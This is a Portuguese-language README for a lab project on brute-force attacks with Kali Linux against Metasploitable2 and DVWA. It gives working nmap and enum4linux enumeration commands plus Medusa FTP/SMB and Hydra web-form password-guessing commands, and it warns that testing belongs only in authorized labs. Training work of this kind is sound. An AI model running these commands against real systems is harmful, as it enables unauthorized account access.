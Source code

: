 
# Desafio: Ataques de Força Bruta com Medusa (Kali + Metasploitable2/DVWA)

## Resumo
Projeto prático para demonstrar ataques de força bruta em ambiente controlado usando Kali Linux e Medusa, com alvo Metasploitable2 e DVWA. Objetivo: aprender enumeração, execução de ataques e propor medidas de mitigação.

> **Atenção:** todos os testes foram executados apenas em VMs de laboratório (Kali e Metasploitable). Não execute testes em sistemas sem autorização.

## Ambiente
- Hypervisor: VirtualBox  
- Kali Linux — IP: **192.168.1.2**  
- Metasploitable2 (alvo) — IP: **192.168.1.16**  
- Rede: Host-only / Internal Network

## Ferramentas utilizadas
- Kali Linux  
- Medusa  
- Nmap  
- smbclient, enum4linux  
- Hydra (opcional, para formulários HTTP)  
- ssh/sshfs

## Wordlists (exemplos)
- `wordlists/simples_usernames.txt`  
- `wordlists/simples_passwords.txt`  

*(Use wordlists maiores como `rockyou.txt` somente em laboratório.)*

## Comandos principais (exemplos)
### Enumeração
```bash
sudo nmap -sS -sV -p21,22,80,139,445,3306 192.168.1.16 -oN nmap_common.txt
smbclient -L //192.168.1.16 -N
enum4linux -a 192.168.1.16 > enum4linux.txt


medusa -h 192.168.1.16 -u msfadmin -P wordlists/simples_passwords.txt -M ftp -t 4 -f -O results/medusa_ftp.txt


medusa -h 192.168.1.16 -U wordlists/simples_usernames.txt -P wordlists/simples_passwords.txt -M smb -t 8 -f -O results/medusa_smb.txt


hydra -l admin -P wordlists/simples_passwords.txt 192.168.1.16 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=incorrect"



🧩 Evidências
1️⃣ Resultado do Nmap
<p align="center"> <img src="imagens/imagem1.PNG" alt="Nmap scan" width="600px" style="border-radius:10px; box-shadow: 0 0 10px rgba(0,0,0,0.2);"/> <br> <em>Figura 1 — Resultado do Nmap mostrando portas abertas.</em> </p>
2️⃣ Medusa – FTP
<p align="center"> <img src="imagens/imagem2.png" alt="Medusa FTP" width="600px" style="border-radius:10px; box-shadow: 0 0 10px rgba(0,0,0,0.2);"/> <br> <em>Figura 2 — Medusa encontrou credenciais válidas para FTP.</em> </p>
3️⃣ DVWA – Login
<p align="center"> <img src="imagens/imagem3.png" alt="DVWA login" width="600px" style="border-radius:10px; box-shadow: 0 0 10px rgba(0,0,0,0.2);"/> <br> <em>Figura 3 — Tela de login do DVWA usada para testes.</em> </p>
4️⃣ Teste adicional
<p align="center"> <img src="imagens/imagem4.png" alt="Teste" width="600px" style="border-radius:10px; box-shadow: 0 0 10px rgba(0,0,0,0.2);"/> <br> <em>Figura 4 — Descrição do teste.</em> </p>
5️⃣ Outra captura
<p align="center"> <img src="imagens/imagem5.png" alt="Outra captura" width="600px" style="border-radius:10px; box-shadow: 0 0 10px rgba(0,0,0,0.2);"/> <br> <em>Figura 5 — Outra captura relevante.</em> </p>
